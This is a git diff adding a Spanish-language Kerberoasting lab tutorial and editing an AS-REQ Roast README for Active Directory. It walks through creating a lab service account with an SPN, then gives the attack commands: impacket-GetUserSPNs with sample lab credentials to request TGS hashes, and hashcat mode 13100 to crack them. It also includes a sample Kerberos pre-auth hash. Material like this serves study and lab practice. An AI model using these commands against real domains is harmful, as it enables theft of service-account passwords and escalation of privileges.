

Changes: Modifying AS-REQ Roast attack Adding Kerberoasting attack

diff --git a/Kerberoasting/README.md b/Kerberoasting/README.md
@@ -1,0 +1,111 @@
+# Kerberoasting
+
+# ¿Cómo surge un ataque Kerberoating?
+
+---
+
+En los entornos de Active Directory tenemos multiples objetos usuarios, grupos, etc.. Exiten entre los usuarios cuentas que se asocian a servicios, algunas como krbtgt vienen por defecto cuando instalamos Active Directory. Estas son cuentas de usuarios como cualquier otra con la peculiaridad de que están asociadas a un **SPN** (**Service Principal Name**) y no son usadas por personas para acceder al sistema sino que el mismo sistema las utiliza internamente para gestionar servicios.
+
+Ahora bien ¿Qué es un ataque Kerberoasting y qué tiene que ver con esto que les he explicado?, un ataque Kerberoasting es un tipo de técnica que abusa de la funcionadidad de Kerberos para capturar el **Ticket Granting Service** **(TGS)** y crackearlo de manera offline, recordando este ticket está cifrado con la contraseña del servicio que se solicita, es decir, la contraseña de la cuenta que gestiona ese servicio.
+
+El ataque se lleva putualiza en el envío del `KRB_TGS_REP` que va desde el KDC al cliente.
+
+![Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)](images/Untitled.png)
+
+Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)
+
+> **Tomemos en cuenta lo siguiente:**
+
+- Las cuentas destinadas para estos servicios suelen ser contraseñas débiles al no ser accedidas constantemente por algún usuario y para recordar más fácil se evita suelen usar contraseñas fáciles, por ende son fáciles de crackear.
+- Estas cuentas suelen ser administradores para poder ejecutar dichos servicios y tareas concernientes.
+> 
+
+Viendolo así darnos cuenta de que es un ataque sencillo y potente a la vez, con la condición de que **debimos haber tenido acceso a una cuenta de usuario del dominio previamente.**
+
+# Preparación de entorno
+
+---
+
+Primero vamos a crear una cuenta de usuario que será la encargada gestionar el servicio. 
+
+- **Por medio al Powershell.**
+
+```powershell
+New-ADUser -Name "NOMBRE COMPLETO DE LA PERSONA" -GivenName "NOMBRE DE LA PERSONA" -SamAccountName "NOMBRE DE CUENTA", -UserPrincipalName "NOMBRE_DE_CUENTA@DOMINO" -Description "DESCRIPCION OPCIONAL" -AccountPassword(Get-Host -AsSecureString "Inserte la contraseña") -Enable $true
+```
+
+![Untitled](images/26bf7301-3d1e-466c-a85f-c4ed1225ef16.png)
+
+En caso de querer borrar la cuenta puedes usar.
+
+```powershell
+Remove-ADUser -Identity "NOMBRE COMPLETO DE LA PERSONA"
+```
+
+- **Por medio a interfaz gráfica.**
+
+Nos dirigimos a **Administrador del servidor > Herramientas > Usuarios y equipos de Active Directory**, damos clic derecho sobre **Users**, luego a **Nuevo > Usuario**.   
+
+![Untitled](images/1575c984-f9b7-4f76-bebc-caea943fb568.png)
+
+Luego hacemos clic en el icono de usuario en la barra superior. 
+
+![Untitled](images/2e874867-ee7d-4d35-bc1b-c6acdd62e74f.png)
+
+Indicamos la información correspondiente y damos clic en siguiente.
+
+![Untitled](images/Untitled%201.png)
+
+Luego colocamos una contraseña, marcamos las opciones **El usuario no puede cambiar la contraseña** y **La contraseña nunca expira**. Por último, damos clic en **Siguiente**.
+
+![Untitled](images/Untitled%202.png)
+
+Y finalizamos.
+
+![Untitled](images/Untitled%203.png)
+
+Como podemos ver, el usuario se ha creado satisfactoriamente.
+
+![Untitled](images/0d03c82d-3952-4b37-a6c3-b04bf53db8a7.png)
+
+Luego asociaremos la cuenta a un SPN (No importa si existe un servicio en ejecución o no). El SERVICE_NAME y el SERVER_MACHINE_NAME pueden ser cualquiera pero el USER debe ser el usuario que creamos anteriormente.
+
+```powershell
+setspn -S SERVICE_NAME/SERVER_MACHINE_NAME USER
+```
+
+![Untitled](images/ce8eefab-5d82-4eec-9a8f-7cf0dafc54f1.png)
+
+# Explotación
+
+---
+
+Para solicitar el ticket TGS a las cuentas que tengan un SPN asociado vamos a utilizar un módulo de impacket llamado `GetUserSPNs`, el comando es el siguiente:
+
+```powershell
+impacket-GetUserSPNs DOMAIN/USER:PASSWORD -request
+```
+
+Sustituimos **DOMAIN** por el nombre del dominio, **USER** por el nombre del usuario previamente comprometido y **PASSWORD** por la contraseña del usuario. 
+
+```powershell
+impacket-GetUserSPNs cisco.local/ketti.andrea:K4ndrea -request
+```
+
+Y cómo podemos ver hemos obtenido el hash de la contraseña de este usuario.
+
+![Untitled](images/Untitled%204.png)
+
+Ahora **¡¡CRACKEEMOSLO!!**
+
+# Crackeo de las contraseñas
+
+---
+
+Utilizaremos hashcat para crackear hash, el módulo para este hash del tipo Kerberos es el `13100`. Sustituimos HASH_FILE por la ruta de nuestro archivo hash y el DICTIONARY por la ruta del diccionario que vamos a usar para crackear el hash.
+
+```bash
+hashcat -a 0 -m 13100 HASH_FILE DICTIONARY -O
+```
+
+![Untitled](images/Untitled%205.png)

diff --git a/AS-REQ Roast/README.md b/AS-REQ Roast/README.md
@@ -1,6 +1,6 @@
 # AS-REQ Roast
 
-## ORIGEN DE UN AS-REQ ROAST
+# ¿Cómo surge un AS-REQ ROAST?
 
 ---
 
@@ -36,7 +36,13 @@ Buscaremos el paquete que contenga los valores cipher, CNameString y realm.
 
 ![Untitled](images/Untitled%204.png)
 
-## CRACKEO DE LOS HASHES ENCONTRADOS
+Con estos datos estructura estructuramos el hash como antes habíamos explicado.
+
+```bash
+$krb5pas$18$EAnderson$CISCO$3cd6b6e9b10de664f942f8e06bbf4ac171ea1d054642cf3bb3d814b2314c818c6d0a023524605a6320faf8ce8a2948e67f4de1519cb490d6
+```
+
+# Crackeo de los hashes encontrados
 
 ---
 
